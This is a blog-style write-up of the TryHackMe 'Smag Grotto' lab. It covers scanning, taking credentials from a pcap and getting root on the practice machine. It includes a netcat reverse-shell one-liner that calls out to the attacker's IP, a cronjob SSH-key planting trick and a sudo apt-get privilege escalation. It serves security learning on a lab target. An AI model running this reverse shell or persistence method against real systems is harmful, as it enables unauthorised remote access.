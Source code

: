 ```yaml
---
title: "Smag Grotto - TryHackMe"
author: Ludovic COULON
date: 2020-07-30
hero: ./images/hero.jpeg
excerpt: "Writeup for the Smag Grotto university of Portsmouth's beginner room"
---
```


[TryHackMe | Smag Grotto](https://tryhackme.com/room/smaggrotto)

Deploy the machine and get root privileges.

---

### Setup

```
[smaggrotto] nmap -A 10.10.192.6                                                                                         2:01:00
```

```bash
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 74:e0:e1:b4:05:85:6a:15:68:7e:16:da:f2:c7:6b:ee (RSA)
|   256 bd:43:62:b9:a1:86:51:36:f8:c7:df:f9:0f:63:8f:a3 (ECDSA)
|_  256 f9:e7:da:07:8f:10:af:97:0b:32:87:c9:32:d7:1b:76 (ED25519)

80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-ls: Volume /
| SIZE  TIME              FILENAME
| 1.3K  2020-06-05 10:56  admin.php
| 1.5K  2020-06-05 10:45  login.php
| 139K  2020-06-05 10:19  materialize.min.css
|_
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Index of /
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

<div className="Image__Medium">
  <img src="https://i.imgur.com/D9PypUN.png" alt="blog_image" />>
</div>

Let's see if there is something on the website

<div className="Image__Medium">
  <img src="https://i.imgur.com/aXIQi2Y.png" alt="blog_image" />
</div>

Well nothing of the website let's see of there is some hidden dirrectory with gobuster/dirb

```bash
[smaggrotto] gobuster -u 10.10.192.6 -w /opt/directory-list-2.3-medium.txt                                               2:10:03 # Select your own wordlist                                              2:06:46
```

```bash
Gobuster v1.3                OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.192.6/
[+] Threads      : 10
[+] Wordlist     : /opt/directory-list-2.3-medium.txt
[+] Status codes : 200,204,301,302,307
=====================================================
/mail (Status: 301)
```

<div className="Image__Medium">
  <img src="https://i.imgur.com/V1XUxTY.png" alt="blog_image" />
</div>

<div className="Image__Medium">
  <img src="https://i.imgur.com/UZZG0pk.png" alt="blog_image" />
</div>

Nice there is something interesting on this webpage let's download the pcap (wireshark) file and extract the juicy data 👀

<div className="Image__Medium">
  <img src="https://i.imgur.com/FZ4Kz25.png" alt="blog_image" />
</div>

The simple way to extract the data is to select the first packet then go to the "Analyse" tab the click on the "Follow" then "TCP Stream"

<div className="Image__Medium">
  <img src="https://i.imgur.com/yKY9pMB.png" alt="blog_image" />
</div>

<div className="Image__Medium">
  <img src="https://i.imgur.com/RR1fGLX.png" alt="blog_image" />
</div>

Nice we successfully have the username and the password but for what ? The SSH ? Or something else ? 🙄

Before trying the SSH connection with those credentials, you can see on the TCP Stream there is a Host : "development.smag.thm", let's take a look to this link.

To add this host you need to edit your "/etc/hosts" file.

<div className="Image__Medium">
  <img src="https://i.imgur.com/Q5KPLgs.png" alt="blog_image" />
</div>

<div className="Image__Medium">
  <img src="https://i.imgur.com/FLbTQw7.png" alt="blog_image" />
</div>

Well let's use the credentials that the TCP Stream gives us

```bash
h[nope 👁👄👁]k:cH[nope 👁👄👁]0w
```

<div className="Image__Medium">
  <img src="https://i.imgur.com/L0iBMqp.png" alt="blog_image" />
</div>

Nice, we can execute remote command let's try a reverse shell 🤩

<div className="Image__Small">
  <img src="https://i.imgur.com/UJiq34Y.png" alt="blog_image" />
</div>

(This is actually my own chrome extension to generate some reverse shell and more..)

[LasCC/Hack-Tools](https://github.com/LasCC/Hack-Tools)

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.28.116 1337 >/tmp/f
```

<div className="Image__Medium">
  <img src="https://i.imgur.com/4pVmO2j.png" alt="blog_image" />
</div>

Nice we have a reverse shell, let's see if we can have the first flag 🏅

<div className="Image__Medium">
  <img src="https://i.imgur.com/i1MkJLx.png" alt="blog_image" />
</div>

As you can see we don't have the permission to see the content of the file let's upload LinEnum to see if there is some potential attacks that we can perform.

<div className="Image__Medium">
  <img src="https://i.imgur.com/G9PaoMF.png" alt="blog_image" />
</div>

Ah, I found something very interesting with the cronjob

<div className="Image__Medium">
  <img src="https://i.imgur.com/MkUFU4L.png" alt="blog_image" />
</div>

As you can see the cronjob is taking the jake's backup SSH public key and add it to the authorised keys, if we create our own key and modify the backup file we can access the server ☺️

First let's generate our own SSH public key 👍

```bash
[smaggrotto] ssh-keygen -o                                                                                               2:25:52
```

<div className="Image__Medium">
  <img src="https://i.imgur.com/kXjks3E.png" alt="blog_image" />
</div>

Nice we have our own SSH public key let's change the backup file on the server 👍

<div className="Image__Medium">
  <img src="https://i.imgur.com/Q7IGUeR.png" alt="blog_image" />
</div>

Now let's wait one or two minutes and then we can log to the server with the jake username 😀

```bash
[smaggrotto] ssh -i [Path to your ssh key] jake@10.10.192.6                                                            2:28:49
```

<div className="Image__Medium">
  <img src="https://i.imgur.com/hEeAJH6.png" alt="blog_image" />
</div>

And voilà ! You have the access to the remote server ! 🎉

### **#1 What is the user flag?**

```bash
iusGo[nope 👁👄👁]uqU3j
```

<div className="Image__Medium">
  <img src="https://i.imgur.com/5xn3kch.png" alt="blog_image" />
</div>

### **#2 What is the root flag?**

Now let's get a root access 😍

<div className="Image__Medium">
  <img src="https://i.imgur.com/TcRPpC7.png" alt="blog_image" />
</div>

<div className="Image__Medium">
  <img src="https://i.imgur.com/9sh8unG.png" alt="blog_image" />
</div>

[apt get | GTFOBins](https://gtfobins.github.io/gtfobins/apt-get/#sudo)

<div className="Image__Medium">
  <img src="https://i.imgur.com/iDrkgGN.png" alt="blog_image" />
</div>

```bash
uJr6zRgetan[nope 👁👄👁]bBKz2T
```

<center>
  <a href="https://tryhackme.com/p/boperXD" target="_blank">
    <img src="https://i.imgur.com/hejzVWP.png" alt="TryhackMeProfile" />
  </a>
</center>
